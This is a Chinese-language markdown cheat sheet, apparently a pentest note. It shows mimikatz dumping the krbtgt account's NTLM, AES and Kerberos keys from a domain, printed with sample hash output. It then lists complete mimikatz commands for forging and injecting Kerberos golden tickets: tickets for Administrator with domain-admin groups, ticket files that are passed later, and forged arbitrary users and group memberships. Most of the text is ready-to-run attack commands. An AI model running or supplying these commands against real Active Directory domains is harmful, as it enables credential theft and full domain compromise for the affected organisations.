   + mimikatz读取密钥
  + ```plaintext
    mimikatz # privilege::debug
    Privilege '20' OK

    mimikatz # lsadump::lsa /inject /name:krbtgt
    Domain : ROOTKIT / S-1-5-21-3759881954-2993291187-3577547808

    RID  : 000001f6 (502)
    User : krbtgt

     * Primary
        NTLM : c3d5042c67ef5f461d0ba6ecdd9ea449
        LM   :
      Hash NTLM: c3d5042c67ef5f461d0ba6ecdd9ea449
        ntlm- 0: c3d5042c67ef5f461d0ba6ecdd9ea449
        lm  - 0: 2ca534c7c96a0b5bf6b37169b68f66af

     * WDigest
        01  3aea9b0472aa93bb13a9b2cffacf1001
        02  d9a716e3ba48883f5e320e32ea793979
    	...
        28  78f36bbd4ba657fdcc2f377e550e0c62
        29  4cb788eeb5b4460b4334f6b6b5cd969b

     * Kerberos
        Default Salt : ROOTKIT.ORGkrbtgt
        Credentials
          des_cbc_md5       : 2cb957646746e376

     * Kerberos-Newer-Keys
        Default Salt : ROOTKIT.ORGkrbtgt
        Default Iterations : 4096
        Credentials
          aes256_hmac       (4096) : 3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
          aes128_hmac       (4096) : c7ae2a311bdd5803646f9a98351c31e6
          des_cbc_md5       (4096) : 2cb957646746e376
    ```
  + 其中

    ```plaintext
    NTLM : c3d5042c67ef5f461d0ba6ecdd9ea449
    aes256_hmac  : 3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745
    aes128_hmac  : c7ae2a311bdd5803646f9a98351c31e6
    ```
  + 可用于黄金票据
+ 利用

  + 利用的时候密钥前加上加密的算法例如NTLM/rc4:xxx aes128：/aes128:xxx
  + 清除原有票据：kerberos::purge
  + 注入黄金票据：kerberos::golden /domain:xxx.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /rc4:c3d5042c67ef5f461d0ba6ecdd9ea449 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ptt
  + 生成黄金票据文件：kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /rc4:c3d5042c67ef5f461d0ba6ecdd9ea449 /user:Administrator /id:500 /groups:500,501,513,512,520,518,519 /ticket:golden.kirbi
  + 使用：kerberos::ptt golden.kirbi
  + 伪造用户：kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:"Hello world,Nice to meet you my dear" /id:500 /groups:500,501,513,512,520,518,519 /ptt
  + 伪造组成员资格：kerberos::golden /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /user:micle /id:1139 /groups:500,501,513,512,520,518,519 /ptt
+ 其他工具
